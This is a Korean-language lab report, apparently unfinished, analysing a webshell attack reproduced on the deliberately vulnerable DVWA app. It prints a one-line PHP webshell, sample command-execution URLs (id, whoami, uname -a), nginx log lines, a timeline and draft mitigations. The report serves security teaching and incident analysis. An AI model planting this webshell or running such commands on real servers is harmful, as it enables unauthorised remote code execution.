






# Incident 05 - DVWA WebShell Attack Analysis

## 1. 사건 개요

본 분석은 DVWA(Damn Vulnerable Web Application) 환경에서 File Upload 취약점을 이용하여  
WebShell 업로드 및 명령 실행 공격(RCE)을 재현하고, 웹 서버 로그를 기반으로 공격 행위를 분석하기 위한 실습이다.

공격자는 업로드 기능의 검증 미흡을 악용하여 PHP 기반 WebShell을 서버에 업로드하고,  
HTTP 요청을 통해 명령을 전달하여 서버에서 실행할 수 있는 가능성을 확인한다.

본 보고서에서는 공격 재현 과정, 웹 로그 분석, 타임라인 재구성 및 IOC(침해 지표)를 기반으로  
공격 흐름을 분석할 예정이다.

---

## 2. 분석 환경

| 구분 | 환경 |
|------|------|
| Target | RHEL |
| Attacker | Kali Linux |
| Web Server | nginx |
| Web Application | DVWA |
| 주요 로그 | /var/log/nginx/access.log |

---

## 3. 공격 재현 과정

### 3.1 WebShell 업로드

다음 내용을 포함한 PHP 기반 WebShell 파일을 생성하였다.

```php
<?php system($_GET['cmd']); ?>
```

파일명은 `shell.php` 로 저장하였다.

DVWA File Upload 페이지(`/vulnerabilities/upload/`)를 통해 업로드를 수행하였으며, 업로드 성공 메시지를 확인하였다.





---

### 3.2 명령 실행 (RCE)

업로드된 WebShell 파일에 접근하여 URL 파라미터를 통해 시스템 명령을 실행하였다.

다음과 같은 요청을 통해 명령 실행을 확인하였다.

    http://192.168.200.81/hackable/uploads/shell.php?cmd=id

실행 결과 서버의 사용자 정보가 출력되었으며, 명령이 정상적으로 실행됨을 확인하였다.



---

추가적으로 다음 명령을 실행하여 현재 실행 계정을 확인하였다.

    http://192.168.200.81/hackable/uploads/shell.php?cmd=whoami

웹 서버 계정(apache)이 출력되었으며, WebShell이 웹 서버 권한으로 동작함을 확인하였다.



---

또한 다음 명령을 실행하여 시스템 정보를 확인하였다.

    http://192.168.200.81/hackable/uploads/shell.php?cmd=uname -a

서버의 운영체제 및 커널 정보가 출력되었으며, 추가적인 시스템 정보 수집이 가능함을 확인하였다.



---

## 4. 웹 로그 분석

### 4.1 Access Log 분석

nginx access log에서 WebShell 접근 및 명령 실행 요청을 확인하였다.

확인된 주요 로그는 다음과 같다.

```
[23/Mar/2026:09:19:35 +0900] GET /hackable/uploads/shell.php?cmd=id
[23/Mar/2026:10:08:58 +0900] GET /hackable/uploads/shell.php?cmd=whoami
[23/Mar/2026:10:10:38 +0900] GET /hackable/uploads/shell.php?cmd=uname%20-a
```

cmd 파라미터를 포함한 요청이 확인되었으며, 이는 WebShell을 이용한 명령 실행 시도임을 나타낸다.



---

### 4.2 공격 단계 분석

1. WebShell 업로드 수행  
→ 서버에 실행 가능한 파일 업로드

2. WebShell 접근 및 명령 실행  
→ 시스템 명령 수행 (RCE)

3. 시스템 정보 수집  
→ 서버 환경 및 권한 정보 확인

---

## 5. 타임라인 재구성

| 시간 | 이벤트 | 해석 |
|------|--------|------|
| 09:19:35 | 명령 실행 (id) | 사용자 정보 확인 |
| 10:08:58 | 명령 실행 (whoami) | 실행 계정 확인 |
| 10:10:38 | 시스템 정보 수집 | 시스템 정보 확인 |

---

## 6. IOC (Indicators of Compromise)

| 구분 | 값 | 설명 |
|------|----|------|
| URL | (작성 예정) | WebShell 접근 경로 |
| Parameter | cmd= | 명령 실행 파라미터 |
| Command | (작성 예정) | 실행된 시스템 명령 |
| Pattern | (작성 예정) | WebShell 접근 패턴 |
| Directory | /hackable/uploads/ | 업로드 파일 저장 경로 |

---

## 7. 대응 및 개선 방안
(작성 예정)

- 파일 업로드 검증 강화
- 업로드 디렉토리 실행 권한 제한
- 웹 로그 모니터링 및 이상 탐지
- 입력값 필터링 및 보안 정책 적용

---

## 8. 결론
(작성 예정)
